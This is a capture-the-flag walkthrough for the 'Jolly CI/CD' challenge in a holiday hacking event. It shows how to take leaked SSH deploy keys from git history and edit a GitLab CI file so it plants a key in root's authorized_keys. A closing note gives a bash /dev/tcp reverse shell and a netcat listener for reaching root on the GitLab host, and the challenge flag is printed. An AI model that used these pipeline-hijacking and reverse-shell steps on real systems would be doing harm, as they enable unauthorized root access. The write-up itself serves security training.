



# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [CI/CD terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? tip "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? tip "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    ```text
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!
    ```

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md#response) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, change to the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

{ class=border }

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update. So, let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

{ class=border }

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 3), create an `.ssh` folder (line 6), copy the private `.deploy` and public `.deploy.pub` SSH keys (lines 7-8), lock down the `.ssh` folder permissions (line 9), and configure a Git email and user name (lines 12-13). For the latter we use the *Author* information found in the git log commit details.

```shell linenums="1" title="Copy SSH keys and configure Git"
# Checkout the commit containing the SSH keys
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98

# Copy the SSH keys
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh

# Configure Git
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

{ class=border }


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci.yml) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from *gitlab.flag.net.internal* to *wordpress.flag.net.internal* each time a commit is pushed to the Git repository.

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html
    ```

The ability to push changes to the Git repo gives us a few options to obtain access to *wordpress.flag.net.internal*. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [curl](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on *wordpress.flag.net.internal*. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci-updated.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab host to the Wordpress host and appends the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (lines 12-17).

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1" hl_lines="12-17"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html

    copy-key-job:
      stage: deploy
      environment: production
      script:
        - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
           'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
    ```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit our changes (lines 2-3), push the modified files to the *gitlab.flag.net.internal* GitLab server (line 4), and wait for the updated CI/CD automation to execute.

```shell linenums="1" title="Commit and push changes to the GitLab host"
cd ~/wordpress.flag.net.internal
git add id_ed25519.pub .gitlab-ci.yml
git commit -m 'Inconspicuous update. Please ignore!'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

{ class=border }

!!! success "Answer"
    oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT

!!! note "Getting root on *gitlab.flag.net.internal*"
    The same `.gitlab-ci.yml` technique outlined above can also be used to access *gitlab.flag.net.internal*. The only caveat is that the Gitlab host isn't running an SSH server to connect to, so we'll need to use a reverse shell instead. Start by splitting the terminal window in two by running `tmux` and pressing ++ctrl+b++, followed by ++dblquote++. This gives us two command shells that we can switch between by pressing ++ctrl+b++, followed by ++up++ or ++down++.

    In the first shell, start a Netcat listener using `nc -lvp 8080` to receive the incoming reverse shell connection. In the other shell, add a new job to `.gitlab-ci.yml` that initiates the reverse shell using `/bin/bash -i >& /dev/tcp/172.18.0.99/8080 0>&1`. Commit and push your changes to the Gitlab host and wait for the automation to run. After a few seconds the connection will be established and we'll have *root* acces on the Gitlab server. :sunglasses:

    { class=border }


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
